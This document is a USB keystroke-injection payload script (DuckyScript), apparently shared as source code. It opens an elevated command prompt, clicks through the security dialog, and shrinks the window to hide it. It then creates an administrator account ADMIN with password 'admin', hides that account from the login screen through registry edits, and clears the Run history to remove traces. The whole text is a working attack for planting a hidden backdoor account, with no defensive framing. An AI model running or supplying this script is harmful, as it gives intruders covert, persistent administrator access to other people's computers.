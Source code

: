 REM Start delay
DELAY 1000
DELAY 300
GUI r
DELAY 300

STRING powershell Start-Process cmd -Verb runAs
DELAY 300
ENTER
    
DELAY 2000
REM bypassing security dialog
ALT y
DELAY 500
REM obfuscationg terminal
STRING mode con:cols=18 lines=1
DELAY 300
ENTER
REM changing color
STRING color 78
DELAY 300
ENTER
REM adding user usename = ADMIN password is admin 
STRING net user /add ADMIN admin
DELAY 300
ENTER
REM Adding user in administrators group
STRING net localgroup administrators ADMIN /add
DELAY 300
ENTER
REM Hiding the user via editing registory
STRING REG ADD "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList"
DELAY 300
ENTER

STRING REG ADD "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v ADMIN /t REG_DWORD /d 0
DELAY 300
ENTER

REM removing the footprints.
STRING powershell "Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue"
DELAY 300
ENTER
REM Safe exiting
STRING exit
DELAY 300
ENTER